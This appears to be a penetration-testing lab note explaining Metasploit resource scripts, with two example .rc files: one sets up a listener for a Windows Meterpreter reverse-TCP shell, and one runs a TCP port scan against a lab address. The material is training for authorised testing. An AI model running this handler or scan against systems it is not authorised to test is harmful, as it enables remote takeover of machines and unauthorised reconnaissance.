





# Resource Scripts

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Environment:** Kali (Metasploit automation)

## 1. Executive Summary

Metasploit **resource scripts** (`.rc`) batch a series of console commands so repetitive
setups run with one flag. Here we list the pre-packaged scripts and write two of our own —
one that auto-configures a `multi/handler`, and one that runs a TCP port scan — loading each
with `-r`.

## 2. Pre-packaged Scripts

```bash
ls -al /usr/share/metasploit-framework/scripts/resource/
```



## 3. Handler Resource Script

Instead of configuring a handler by hand each time, write the commands to a `.rc` file.

```bash
# handler.rc
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.10.5
set LPORT 1234
run
```



Loading it with `-r`.

```bash
msfconsole -r handler.rc
```




## 4. Port-Scan Resource Script

```bash
# portscan.rc
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.7
run
```



```bash
msfconsole -r portscan.rc
```




## 5. Notes

1. Resource scripts accept embedded Ruby (`<ruby>...</ruby>`) for advanced automation.
2. They are ideal for standardising engagement setups (handlers, workspaces, recurring
   scans) and for reproducible labs.
